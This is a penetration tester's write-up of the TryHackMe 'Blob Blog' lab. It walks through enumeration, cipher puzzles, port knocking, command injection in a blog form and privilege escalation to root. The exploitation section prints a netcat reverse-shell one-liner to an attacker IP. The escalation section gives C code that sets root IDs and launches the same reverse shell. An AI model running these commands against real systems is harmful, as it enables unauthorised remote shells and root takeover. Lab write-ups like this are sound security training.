




# The Blob Blog TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We scan with **nmap** all ports with scripts and versions.


## Enumeration
We access the website, we find the default Apache Ubuntu page. 


We find in the source code a text encoded in "*base64*".


We decode the text and get as a result another one, this time it is encoded in "*brainfuck*".


We decode the text, it seems to give us a "*hint*" to perform port knocking and discover some new service.



We download the **[knock](https://github.com/grongor/knock)** tool and use the port sequence mentioned in the hint. 
After finishing, we do a new nmap and find two new ports (*21, 8080 and 445*).


Using **dirsearch** on port *8080 web service*, we found several interesting paths to a blog.


The credentials are tested in the authentication panel, but they do not work. We try to access through the **FTP** service and they do work.

In the **FTP** there is only one *photo* that could contain stego, but there is nothing else interesting (at the moment).



Again, we launched **nmap** to check software versions of the new ports. We found that *port 445* (normally SMB) is an *HTTP service*!!!!


We access the web resource through port 445, in the source code we find some credentials.


We launch the **dirsearch** tool again on the new resource and find a directory called *"/user"* which provides us with a private *SSH key*.


#### Evidence of SSH Private key



Now with the previously found password, we extract the text file that contains the previous image, it hides a path and credentials.


We access the web path that hid the text file found, it seems to give us a clue and sign a user.


We tried the credentials, but they do not work. The **hint** left a word at the end of the text, this made me think that maybe they were encoded or encrypted, so I tried with *vigenère* and it worked!


Enter your credentials and you have access to the blog.


## Exploitation

We see that from the form field we are able to execute system commands.



#### Result


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Reverse shell


We do a little reconnaissance, we try *two images* of two puppies, we test to see if they contain any information with **steghide** (without password) and one of them shows us a cipher text.


No comment....


We tested the passwords found with the two users and one of them works with the user *"bob"*.


We found the rare "*blogFeedback*" binary, downloaded it and analyzed it with "**Ghidra**".


We see that the binary asks for a numerical sequence being less than 7 digits and that it executes a shell with the user *UID/GID 1000:1000 (bobloblaw)*.


We put the sequence of the *6 digits less than 7*, we see that we already have shell as the user "*bobloblaw*", we look for the flag and read it.


## Privilege Escalation

We run "*sudo -l*" and we see that we have access to two binaries with *SUDO*.


I'm trying to play around with these binaries, but I can't get anything...There is a rather annoying message that keeps popping up on the screen. We launch the **pspy64** tool and see what is running.


``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/bin/sh rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f");
return(0);
}
```
We create a file in **C** with our reverse shell, replace it with the legitimate one and wait for it to compile and run on the victim machine... We receive a connection as the *root user* ;)


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
